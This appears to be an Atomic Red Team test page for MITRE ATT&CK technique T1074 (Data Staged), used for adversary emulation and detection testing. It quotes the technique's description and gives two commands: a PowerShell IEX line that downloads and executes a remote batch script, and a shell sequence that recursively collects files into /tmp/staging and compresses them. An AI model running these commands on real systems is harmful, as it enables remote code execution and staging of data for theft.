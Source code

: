 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Collect and Compress all file types](#atomic-test-2---collect-and-compress-all-file-types)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat')" > c:\windows\pi.log
```
<br/>
<br/>

## Atomic Test #2 - Collect and Compress all file types
Collect all specified file extensions recursively from a specified file path on the target machine. All located files are copied into a temporary location before being compressed.

**Supported Platforms:** Windows, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path to recursively search from | Path | /|

#### Run it with `sh`!
```
mkdir -p /tmp/staging
find {{ path }} -name '*{{ extension }}' -exec cp -prv '{}' '/tmp/staging' ';'
tar -zcvf /tmp/staging.tar.gz /tmp/staging/
rm -rf /tmp/staging
```
<br/>
